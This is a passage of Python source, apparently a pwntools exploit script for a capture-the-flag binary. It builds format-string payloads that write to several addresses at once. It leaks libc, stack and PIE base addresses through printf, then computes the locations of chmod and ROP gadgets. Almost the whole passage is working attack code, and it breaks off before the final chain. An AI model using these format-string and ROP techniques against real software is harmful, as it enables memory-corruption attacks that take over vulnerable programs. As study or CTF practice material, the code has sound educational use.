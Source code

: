 ```python


    # SAT solver to dynamically find position, stop at convergence
    prev_position = 0
    position = 6 + int(rsp_to_format_offset / 8)
    while prev_position != position:
        buf = gen_multi_write_format_string(rsp_to_format_offset, position, values, prefix_string_size)
        prev_position = position
        position = 6 + int((rsp_to_format_offset + len(buf)) / 8)

    for i in sorted(sorted_addresses.keys()):
        if not sorted_addresses[i][1]:
            buf += b'C' * 8  # Filler, as %c increments the position counter
        buf += struct.pack('<Q', sorted_addresses[i][0])
        
    print(f'fmt buf:{buf} len:{len(buf)} position:{position}')
    
    return buf

def write_addrs(p, payload_size, rsp_to_format_offset, addresses, values, prefix_string_size=0):
    '''
    This method writes to multiple addresses, within a single format string invocation.
    '''
    assert(len(addresses) == len(values))
    buf = write_addrs_payload(rsp_to_format_offset, addresses, values, prefix_string_size)
    buf += (payload_size - len(buf)) * b'A'
    p.send(buf)
    p.recvuntil(b'Your input is:')


def main(): 
    # p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    p0 = process(BINARY)

    rsp_to_format_offset = 0xbf
    prefix_string_size = 127

    libc_leak_index = 0
    stack_leak_index = 6
    pie_leak_index = 141
    libc_leak_offset = 0x1ed723
    stack_leak_offset = 0xc7
    pie_leak_offset = 0x1990

    payload_size = 0x350

    # Phase 1 - Read crap
    p0.recvuntil(b'your input again.\n')

    # Phase 2 - Leak
    leaks = read_addr(p0, payload_size, rsp_to_format_offset, address=printf_got)
    libc_base = int(leaks[libc_leak_index], 16) - libc_leak_offset
    printf_ret_addr = int(leaks[stack_leak_index], 16) - stack_leak_offset
    flag_addr = printf_ret_addr + 0x30
    pie_base = int(leaks[pie_leak_index], 16) - pie_leak_offset
    print(f'libc_base: {hex(libc_base)} printf_ret_addr: {hex(printf_ret_addr)} pie_base: {hex(pie_base)}')
    assert( ((libc_base & 0xfff) == 0) and ((pie_base & 0xfff) == 0) )
    chmod_addr = libc_base + libc_chmod_offset
    pop_rdi_ret = libc_base + pop_rdi_ret_offset
    pop_rsi_ret = libc_base + pop_rsi_ret_offset
```